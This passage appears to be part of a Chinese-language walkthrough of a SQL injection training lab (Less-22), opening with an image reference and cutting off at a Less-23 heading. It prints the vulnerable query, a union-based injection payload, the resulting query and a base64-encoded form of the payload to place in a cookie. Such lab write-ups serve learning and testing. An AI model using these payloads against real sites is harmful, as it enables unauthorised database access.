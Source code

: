 <img src="图片\Snipaste_2023-01-23_11-39-43.png" alt="Snipaste_2023-01-23_11-39-43" style="zoom:67%;" />

## Less-22

与上题类似，只是闭合 sql 语句时用的 "

```
$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
```

使用上题 payload 变换一下下

```
-test" union select 1,database(),user(),4,5,6 #
```

拼接后的 sql 为

```
$sql="SELECT * FROM users WHERE username=-test" union select 1,database(),user(),4,5,6 # LIMIT 0,1";
```

把 payload 用 base64 编码，然后放入 COOKIE 里即可

```
LXRlc3QiIHVuaW9uIHNlbGVjdCAxLGRhdGFiYXNlKCksdXNlcigpLDQsNSw2ICM=
```

## Less-23
